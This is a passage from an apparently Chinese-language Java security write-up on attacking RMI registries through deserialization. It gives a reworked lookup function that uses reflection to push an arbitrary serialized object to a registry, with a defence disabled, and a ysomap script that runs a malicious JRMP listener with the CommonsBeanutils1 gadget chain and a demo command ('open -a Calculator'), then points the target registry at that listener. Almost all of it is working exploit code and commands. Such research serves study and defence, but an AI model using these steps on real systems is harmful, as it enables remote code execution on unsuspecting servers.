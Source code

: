 ##### 对于lookup函数的再次改造

这里需要对之前的lookup函数再进行一些改造

```java
 public static void lookup(Registry registry,Object var1) throws AccessException, NotBoundException, RemoteException {
        try {

            Operation[] operations = new Operation[]{new Operation("void bind(java.lang.String, java.rmi.Remote)"), new Operation("java.lang.String list()[]"), new Operation("java.rmi.Remote lookup(java.lang.String)"), new Operation("void rebind(java.lang.String, java.rmi.Remote)"), new Operation("void unbind(java.lang.String)")};

            RemoteRef ref = (RemoteRef) Reflections.getFieldValue(registry,"ref");
            StreamRemoteCall var2 = (StreamRemoteCall)ref.newCall((java.rmi.server.RemoteObject)registry, operations, 2, 4905912898345647071L);

            try {
                ObjectOutput var3 = var2.getOutputStream();
                // 新增语句
                Reflections.setFieldValue(var3,"enableReplace",false);
                var3.writeObject(var1);

            } catch (IOException var15) {
                throw new MarshalException("error marshalling arguments", var15);
            }
            ref.invoke(var2);
        } catch (RuntimeException var16) {
            throw var16;
        } catch (RemoteException var17) {
            throw var17;
        } catch (NotBoundException var18) {
            throw var18;
        } catch (Exception var19) {
            throw new UnexpectedException("undeclared checked exception", var19);
        }
    }
```

##### 使用ysomap进行攻击

```shell
# ysomap的脚本
# 开一个恶意的JRMP服务端，这里使用CB链进行攻击，确保目标的java版本和依赖库支持
use exploit RMIListener
use payload CommonsBeanutils1
use bullet TemplatesImplBullet
set lport 1099
set body "open -a Calculator"
run

# 使用恶意payload攻击目标使其连接我们的恶意JRMP服务端
use exploit RMIRegistryExploit
use payload RMIConnectWithUnicastRemoteObject
set target ip:port
set rhost 127.0.0.1
set rport 1098
run
```
